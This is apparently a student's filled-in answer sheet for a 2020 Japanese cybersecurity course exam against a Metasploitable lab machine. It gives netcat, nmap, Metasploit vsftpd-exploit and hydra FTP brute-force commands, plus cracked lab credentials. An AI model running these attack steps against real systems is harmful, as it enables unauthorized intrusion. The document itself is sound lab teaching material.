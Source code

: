 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# ここに解答を記述
nc -lp 5555
```
#### クライアント側コマンド

```sh
# ここに解答を記述
nc IPアドレス 5555
```
### 1.
#### サーバー側コマンド

```sh
# ここに解答を記述
nc -lp 5555 < file
```
#### クライアント側コマンド

```sh
# ここに解答を記述
nc IPアドレス 5555 > file
```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに解答を記述 -->
- msfadmin:msdadmin
- klog:123456789
- batman:sys
- service:service
```

### 2.
```md
<!--  ここに解答を記述   -->
-foo1:12345
-hoge:activemax
-foo:bar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに解答を記述
nmap -sn 192.168.33.0/25
```

### 2. version scan

```sh
# ここに解答を記述
nmap -sV -p- metasploitableのIPアドレス
```

## 問4 [Metasploit Framework]

```sh
# -msfconsole	-search type:exploit vsftpd	-use 0	-show options	-set RHOSTS metaのIPアドレス	-exploit
- msfconsole
- search type:exploit vsftpd
- use 0
- show options
- set RHOSTS metaのIPアドレス
- exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.list -P passwd.list metaのIPアドレス ftp
hydra -L user.list -P passwd.list metaのIPアドレス ftp
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ip.addr == metaのIPアドレス && http
ip.addr == metaのIPアドレス && http
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  7181 -->
7181
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  80  -->

```

## 問9 [講義の感想]

1.

```md
<!--    -->
- netcat
- nmapによる色々なスキャン
- msfconsoleの使い方
- wiresharkの使い方
- wiresharkでとったパケットの見方
- ARP等のプロトコル
```

2.
```md
<!--  ここに回答を記述 -->
基礎から教えてくれる丁寧な講義だったので、受けていてわかりやすくて楽しかったです。
今年にWindowsのハッキングが出来ないのが残念です。
```

